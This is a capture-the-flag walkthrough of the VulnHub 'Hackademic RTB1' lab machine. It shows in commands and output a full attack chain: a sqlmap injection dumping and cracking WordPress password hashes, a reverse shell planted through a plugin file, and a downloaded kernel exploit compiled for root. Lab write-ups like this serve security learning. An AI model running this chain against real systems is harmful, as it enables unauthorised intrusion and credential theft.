


# Hackademic: RTB1 Walkthrough


---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/hackademic-rtb1,17/](https://www.vulnhub.com/entry/hackademic-rtb1,17/)

> This is the first realistic hackademic challenge (root this box) by mr.pr0n
>
> Download the target and get root.
>
> After all, try to read the contents of the file 'key.txt' in the root directory.
>
> Enjoy!
>
> Source: [http://ghostinthelab.wordpress.com/2011/09/06/hackademic-rtb1-root-this-box/](http://ghostinthelab.wordpress.com/2011/09/06/hackademic-rtb1-root-this-box/)

---

# Stage 1: Reconnaissance

Tools used:
* nmap

First of all, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.100 -T4

Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EDT
Nmap scan report for 192.168.1.100
Host is up (0.00051s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
MAC Address: 08:00:27:73:AF:7C (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.82 seconds
```

Fairly simple server, with only HTTP as the possible attack vector. Browsing the website on firefox reveals a simple page:



---

# Stage 2: Enumeration

Tools used:
* nikto
* wpscan

```
root@kali:~# nikto -host http://192.168.1.100/Hackademic_RTB1
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.100
+ Target Hostname:    192.168.1.100
+ Target Port:        80
+ Start Time:         xxxx-xx-xx xx:xx:xx (GMT)
---------------------------------------------------------------------------
+ Server: Apache/2.2.15 (Fedora)
+ Retrieved x-powered-by header: PHP/5.3.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.2.15 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ /Hackademic_RTB1/index.php/\"><script><script>alert(document.cookie)</script><: eZ publish v3 and prior allow Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-12184: /Hackademic_RTB1/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /Hackademic_RTB1/?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /Hackademic_RTB1/?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /Hackademic_RTB1/xmlrpc.php: xmlrpc.php was found.
+ Server leaks inodes via ETags, header found with file /Hackademic_RTB1/readme.html, inode: 84645, size: 8783, mtime: Fri Jan  7 05:10:04 2011
+ /Hackademic_RTB1/readme.html: This WordPress file reveals the installed version.
+ OSVDB-3092: /Hackademic_RTB1/license.txt: License file found may identify site software.
+ 7534 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT) (24 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Using nikto tells us that it is a wordpress application. `wpscan` revealed a very old version of wordpress (v1.5.1.1), which hash some serious SQL injection vulnerabilities. This can be verified by looking at the one and only blogpost (id is 9) and try `http://192.168.1.100/Hackademic_RTB1/?p=(8+1)`, which works.


---

# Stage 3: Exploitation

Tools used:
* sqlmap
* searchsploit

The next thing I tried was `sqlmap` to try and see if I can inject using the parameter 'p'. However, that didn't went so well... sqlmap sugggests that integer casting might be done at the backend which will strip our injection arguments. This means we must find another way in.

`[xx:xx:xx] [ERROR] possible integer casting detected (e.g. "$p=intval($_REQUEST['p'])") at the back-end web application`

Looking closely at the bottom, it seems like the blogpost is classified as 'Uncategorized'. The URL to view all 'Uncategorized' posts is `http://192.168.1.100/Hackademic_RTB1/?cat=1`. Trying `sqlmap` on it this time works as intended!

```
root@kali:~# sqlmap -u http://192.168.1.100/Hackademic_RTB1/?cat=1 -D wordpress -T wp_users -C user_nickname,user_pass --dump

// output truncated

[xx:xx:xx] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[xx:xx:xx] [INFO] starting 2 processes 
[xx:xx:xx] [INFO] cracked password 'admin' for hash '21232f297a57a5a743894a0e4a801fc3'                                                              
[xx:xx:xx] [INFO] cracked password 'kernel' for hash '50484c19f1afdaf3841a0d821ed393d2'                                                             
[xx:xx:xx] [INFO] cracked password 'maxwell' for hash '8601f6e1028a8e8a966f6c33fcd9aec4'                                                            
[xx:xx:xx] [INFO] cracked password 'napoleon' for hash 'a6e514f9486b83cb53d8d932f9a04292'                                                           
[xx:xx:xx] [INFO] cracked password 'q1w2e3' for hash '7cbb3252ba6b7e9c422fac5334d22054'                                                             
[xx:xx:xx] [INFO] postprocessing table dump                                                                                                         
Database: wordpress
Table: wp_users
[6 entries]
+---------------+---------------------------------------------+
| user_nickname | user_pass                                   |
+---------------+---------------------------------------------+
| NickJames     | 21232f297a57a5a743894a0e4a801fc3 (admin)    |
| MaxBucky      | 50484c19f1afdaf3841a0d821ed393d2 (kernel)   |
| GeorgeMiller  | 7cbb3252ba6b7e9c422fac5334d22054 (q1w2e3)   |
| JasonKonnors  | 8601f6e1028a8e8a966f6c33fcd9aec4 (maxwell)  |
| TonyBlack     | a6e514f9486b83cb53d8d932f9a04292 (napoleon) |
| JohnSmith     | b986448f0bb9e5e124ca91d3d650f52c            |
+---------------+---------------------------------------------+
```

So now we have a few user creds! By logging in as GeorgeMiller, we see that he is one of the few users with upload permissions. So let's do the ol' replace-the-plugin-PHP-file-with-our-reverse-shell-code trick:



```
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.100] 38095
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP xxx xxx x xx:xx:xx EST xxxx i686 i686 i386 GNU/Linux
 xx:xx:xx up 37 min,  0 users,  load average: 0.00, 0.02, 0.02
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=489(apache) groups=489(apache)
sh: no job control in this shell
sh-4.0$
```

Splendid, this works everytime. Another interesting way is to use `weevely` as it contains useful auditing functionality built-in. As always, let's get a proper pseudo-tty shell and view the /home directory:

```
sh-4.0$ python -c "import pty;pty.spawn('/bin/bash')"
python -c "import pty;pty.spawn('/bin/bash')"

bash-4.0$ ls -l
total 4
drwx------ 24 p0wnbox.Team p0wnbox.Team 4096 Jan  9  2011 p0wnbox.Team
```

There seems to be a user named `p0wnbox.Team`, but we don't have permissions to enter the directory. However, `uname -r` tells us that the kernel version is 2.6.36.5, so after doing some searching, I came across a 'RDS' privilege escalation exploit on exploit-db. `searchsploit` stores a local repository of exploit-db's PoC codes as well.

```
sh-4.0$ wget https://www.exploit-db.com/download/15285.c
--xxxx-xx-xx xx:xx:xx--  https://www.exploit-db.com/download/15285.c
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: certificate common name `*.sucuri.net' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: 7155 (7.0K) [application/txt]
Saving to: `15285.c'

     0K ......                                                100% 80.8M=0s

xxxx-xx-xx xx:xx:xx (80.8 MB/s) - `15285.c' saved [7155/7155]

bash-4.0$ gcc -o 15285 15285.c
bash-4.0$ chmod +x 15285
bash-4.0$ ./15285
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
ls[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
whoami
root
```

Alright we've got root shell! Time to barge into `/root` unannounced and grab that `key.txt` for ourselves!

```
python -c "import pty;pty.spawn('/bin/bash')"

[root@HackademicRTB1 root]# ls
Desktop  anaconda-ks.cfg  key.txt  key.txt~

[root@HackademicRTB1 root]# cat key.txt
Yeah!!
You must be proud because you 've got the password to complete the First *Realistic* Hackademic Challenge (Hackademic.RTB1) :)

$_d&jgQ>>ak\#b"(Hx"o<la_%

Regards,
mr.pr0n || p0wnbox.Team || 2011
http://p0wnbox.com
```

Challenge completed!